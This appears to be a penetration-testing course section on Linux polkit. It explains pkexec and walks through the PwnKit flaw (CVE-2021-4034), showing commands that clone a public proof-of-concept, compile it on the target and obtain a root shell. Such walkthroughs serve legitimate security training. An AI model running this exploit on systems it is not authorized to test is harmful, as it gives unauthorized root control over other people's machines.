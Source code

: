PolicyKit (polkit) is an authorization service on Linux-based operating systems that allows user software and system components to communicate with each other if the user software is authorized to do so. It's possible to set how permissions are granted by default. For example it can be set if the operation for each user should be allowed or forbidden for each user, with which privileges, and for how long (one-time, process-limited, session-limited, or unlimited validity). The authorizations can be assigned individually for each user and group.

Polkit works with two groups of files.

1. actions/policies (`/usr/share/polkit-1/actions`)
2. rules (`/usr/share/polkit-1/rules.d`)

Polkit also has `local authority` rules which can be used to set or remove additional permissions for users and groups. Custom rules can be placed in the directory `/etc/polkit-1/localauthority/50-local.d` with the file extension `.pkla`.

PolKit also comes with three additional programs:

- `pkexec` - runs a program with the rights of another user or with root rights
- `pkaction` - can be used to display actions
- `pkcheck` - this can be used to check if a process is authorized for a specific action

The most interesting tool for us, in this case, is `pkexec` because it performs the same task as `sudo` and can run a program with the rights of another user or root.
```shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

In the `pkexec` tool, the memory corruption vulnerability with the identifier [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034) was found, also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034) and also leads to privilege escalation. This vulnerability was also hidden for more than ten years, and no one can precisely say when it was discovered and exploited. Finally, in November 2021, this vulnerability was published and fixed two months later.

To exploit this vulnerability, we need to download a [PoC](https://github.com/arthepsy/CVE-2021-4034) and compile it on the target system itself or a copy we have made.
```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

Once we have compiled the code, we can execute it without further ado. After the execution, we change from the standard shell (`sh`) to Bash (`bash`) and check the user's IDs.
```shell-session
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```
